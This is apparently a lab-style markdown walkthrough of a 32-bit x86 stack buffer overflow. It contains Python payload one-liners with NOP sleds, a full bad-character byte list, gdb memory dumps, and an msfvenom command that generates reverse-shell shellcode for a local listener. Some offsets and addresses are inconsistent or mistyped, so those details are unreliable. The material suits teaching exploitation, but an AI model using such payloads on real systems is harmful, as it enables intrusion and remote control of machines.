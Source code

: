 # Buffer overflow
 
 ## EIP
 
 EIP is an register in a x86 architecture (32bit). It stands for "Extended Instruction Pointer".
 EIP will tell our computer where to go next to execute code, in this exploit we will try to write malicious shellcode to the program and make the EIP point to the malicious shellcode.
 
 ## The exploit
 
 ![](bilder/3.png)
 
 We find the offset to where the EIP address starts. We want to overwrite the address to point to the malicious code.
 Example payload:
 ```$(python -c 'print "\x55" * (2060-100-150) + "\x90" * 100 + "\x44" * 150 + "\x66" * 4')```
 ```
   Buffer = "\x55" * (1040 - 100 - 150 - 4)
     NOPs = "\x90" * 100
Shellcode = "\x44" * 150
      EIP = "\x66" * 4'
 ```
 What we want to do now is to find out what chars that are bad.
 ```
CHARS="\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```
We'll add the CHARS to our payload to see what characters that are bad so we can craft a malicious shellcode.
All these charcters equals to 256 bytes, we need to calculate a new payload.
 ```$(python -c 'print "\x55" * (2060-256) + "<CHARS>" + "\x66" * 4')```
 We can then run ```x/2000xb $esp+500``` in gdb for this output:
 ```
 0xffffd5aa:	0x55	0x55	0x55	0x55	0x55	0x55	0x55	0x55
0xffffd5b2:	0x55	0x55	0x55	0x55	0x55	0x55	0x55	0x55
0xffffd5ba:	0x55	0x55	0x55	0x55	0x55	0x01	0x02	0x03
0xffffd5c2:	0x04	0x05	0x06	0x07	0x08	0x00	0x0b	0x0c
0xffffd5ca:	0x0d	0x0e	0x0f	0x10	0x11	0x12	0x13	0x14
0xffffd5d2:	0x15	0x16	0x17	0x18	0x19	0x1a	0x1b	0x1c
 ```
 We can see the characters being written in these addresses, and we can see that 0x00, 0x09, 0x0a and 0x20 was disregarded. These are our bad characters, which we will use to craft our shellcode with.
 ```msfvenom -p linux/x86/shell_reverse_tcp lhost=127.0.0.1 lport=31337 --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20" --out shellcode```
 This creates a reverse shell for a local machine, the shellcode is 95 bytes so agian we need to recalculate and change the payload.
 ```
 run $(python -c 'print "\x55" * (2060-100-95)+ "\x90" * 100 + "<SHELLCODE>" + "\x66" * 4')
 ```
 
 ![](bilder/4.PNG)
 
 Our shellcode starts at ```0xffffd68e```, But we want EIP to point to a little behind that agian. So our new payload for overwritting EIP will be
"\x7e\xd6\xff\xff" for ```0xffffxd67e```.

Next we open two terminals.

### Terminal 1

![](bilder/1.png)
### Terminal 2

![](bilder/code.png)
